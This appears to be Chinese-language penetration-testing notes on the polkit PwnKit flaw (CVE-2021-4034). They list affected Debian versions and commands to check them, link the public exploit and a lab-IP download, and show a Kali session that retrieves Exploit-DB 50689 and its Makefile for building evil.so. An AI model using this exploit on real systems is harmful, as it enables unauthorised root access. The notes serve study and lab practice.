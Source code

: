 ```

Debain stretch policykit-1 < 0.105-18+deb9u2 
Debain buster policykit-1 < 0.105-25+deb10u1 
Debain bookworm, bullseye policykit-1 < 0.105-31.1 
```

版本查看

```
pkaction --version
dpkg -l policykit-1
rpm -qa polkit
```

利用查找

https://github.com/berdav/CVE-2021-4034

http://192.168.219.134:8000/CVE-2021-4034-main.zip 

或者：

```
┌──(nerubian㉿kali)-[~]
└─$ searchsploit --cve CVE-2021-4034                                                                                     
-------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                            |  Path
-------------------------------------------------------------------------------------------------------------------------- ---------------------------------
PolicyKit-1 0.105-31 - Privilege Escalation                                                                               | linux/local/50689.txt
-------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results

┌──(nerubian㉿kali)-[~]
└─$ searchsploit -m 50689           
  Exploit: PolicyKit-1 0.105-31 - Privilege Escalation
      URL: https://www.exploit-db.com/exploits/50689
     Path: /usr/share/exploitdb/exploits/linux/local/50689.txt
    Codes: CVE-2021-4034
 Verified: False
File Type: C source, ASCII text
Copied to: /home/nerubian/50689.txt

┌──(nerubian㉿kali)-[~]
└─$ cat 50689.txt 
# Exploit Title: PolicyKit-1 0.105-31 - Privilege Escalation
# Exploit Author: Lance Biggerstaff
# Original Author: ryaagard (https://github.com/ryaagard)
# Date: 27-01-2022
# Github Repo: https://github.com/ryaagard/CVE-2021-4034
# References: https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt

# Description: The exploit consists of three files `Makefile`, `evil-so.c` & `exploit.c`

##### Makefile #####

all:
	gcc -shared -o evil.so -fPIC evil-so.c
	gcc exploit.c -o exploit

clean:
	rm -r ./GCONV_PATH=. && rm -r ./evildir && rm exploit && rm evil.so
```